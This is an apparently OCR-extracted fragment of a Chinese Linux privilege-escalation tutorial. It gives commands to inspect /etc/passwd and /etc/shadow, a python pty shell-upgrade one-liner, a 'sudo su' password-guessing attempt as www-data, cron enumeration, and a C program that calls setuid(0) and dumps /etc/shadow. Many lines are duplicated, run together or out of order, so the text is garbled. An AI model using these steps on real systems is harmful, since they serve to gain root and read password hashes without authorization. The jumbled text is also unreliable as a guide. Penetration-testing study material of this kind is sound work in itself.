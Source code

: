 ```
sshd:*:15730:0:99999:7:::
postfix:*:15730:0:99999:7:::
```

```
cd /etcls -l passwd shadow
cd /etc
ls -l passwd shadow
```

`然后进行刚刚繁琐的搜索，没准就找到个bug  
`

`最后强调利用内核漏洞的几个注意点：`

```
python -c 'import pty;pty.spawn("/bin/sh")'
 python -c 'import pty;pty.spawn("/bin/sh")'
```

`**明文root密码提权**`
----------------

### `**passwd和shadow**`

`虽然遇到的概率很小，但还是提一下，大多linux系统的密码都和/etc/passwd和/etc/shadow这两个配置文件息息相关。passwd里面储存了用户，shadow里面是密码的hash。出于安全考虑passwd是全用户可读，root可写的。shadow是仅root可读写的。`

`这里是一个典型的passwd文件`

```
python -c 'import pty;pty.spawn("/bin/sh")'$ sudo susudo su[sudo] password for www-data: 123456Sorry, try again.[sudo] password for www-data:
python -c 'import pty;pty.spawn("/bin/sh")'
$ sudo su
sudo su
[sudo] password for www-data: 123456
Sorry, try again.
[sudo] password for www-data:
```

```
ls -l /etc/cron*
ls -l /etc/cron*
```

```
#include<stdlib.h>#include <unistd.h> int main(){setuid(0);//run as rootsystem("id");system("cat /etc/shadow");}
#include<stdlib.h>
#include <unistd.h>
 int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}
```
